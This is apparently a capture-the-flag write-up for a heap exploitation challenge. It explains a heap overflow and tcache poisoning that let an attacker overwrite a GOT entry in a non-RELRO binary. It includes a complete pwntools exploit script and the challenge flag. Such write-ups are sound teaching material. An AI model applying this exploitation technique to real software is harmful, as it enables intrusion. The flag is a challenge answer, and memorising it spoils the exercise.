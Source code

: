 # Database

## Challenge

We're given a binary with full mitigations except for RELRO, which is disabled.
We're also given the libc and linker used by the server, which is on version 2.27.

We are greeting by the following menu:

```
-> % ./database 
 ____        _        ____
|  _ \  __ _| |_ __ _| __ )  __ _ ___  ___ 
| | | |/ _` | __/ _` |  _ \ / _` / __|/ _ \
| |_| | (_| | || (_| | |_) | (_| \__ \  __/
|____/ \__,_|\__\__,_|____/ \__,_|___/\___|

Welcome to MY DataBase!
You can store as many as 0x10 strings!!!
This might help: 0xee89b201275
You have following options
+-----------------------------+
| 1. Show all data            |
| 2. Insert a element         |
| 3. Update a element         |
| 4. Remove a element         |
| 5. Exit                     |
+-----------------------------+
Enter your choice =>
```

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

The address printed at the start is the address of the `main` function, effectively nullifying PIE.

There is a heap overflow vulnerability, as we are allowed to enter an arbitrary size of bytes when updating an item, regardless of what the original size was.
We can use this to overwrite pointers in a freed chunk by updating a chunk at a lower address.

Using this vulnerability, we can overwrite the pointers with an address on the GOT.
RELRO is disabled, so by allocating a chunk on the GOT, we can overwrite function pointers.

There is a `secret` function that reads the flag:

```c
void sym.secret(void) {
    sym.imp.system("/bin/cat ./flag");
    return;
}
```

By overwriting a function on the GOT with this `secret` function, we can read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host binary.challs.pragyanctf.tech --port 6004 database
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('database')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'binary.challs.pragyanctf.tech'
port = int(args.PORT or 6004)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b"This might help: ")
exe.address = int(io.recvuntil(b"\n", drop=True), 0) - exe.sym['main']

io.sendlineafter(b"Enter your choice => ", b"2")
io.sendlineafter(b"Please enter the length of string => ", b"16")
io.sendlineafter(b"Please enter the string you want to save => ", b"deadbeef")

io.sendlineafter(b"Enter your choice => ", b"2")
io.sendlineafter(b"Please enter the length of string => ", b"16")
io.sendlineafter(b"Please enter the string you want to save => ", b"deadbeef")

io.sendlineafter(b"Enter your choice => ", b"4")
io.sendlineafter(b"Please enter the index of element => ", b"1")

io.sendlineafter(b"Enter your choice => ", b"3")
io.sendlineafter(b"Please enter the index of element => ", b"0")
io.sendlineafter(b"Please enter the length of string => ", b"1000")
io.sendlineafter(b"Please enter the string => ", flat({0x20: exe.got['fflush']}))

io.sendlineafter(b"Enter your choice => ", b"2")
io.sendlineafter(b"Please enter the length of string => ", b"16")
io.sendlineafter(b"Please enter the string you want to save => ", b"deadbeef")

io.sendlineafter(b"Enter your choice => ", b"2")
io.sendlineafter(b"Please enter the length of string => ", b"16")
io.sendlineafter(b"Please enter the string you want to save => ", pack(exe.sym['secret']))

io.interactive()
```

## Flag

```
p_ctf{Ch4Ng3_1T_t0_M4x1Mum}
```
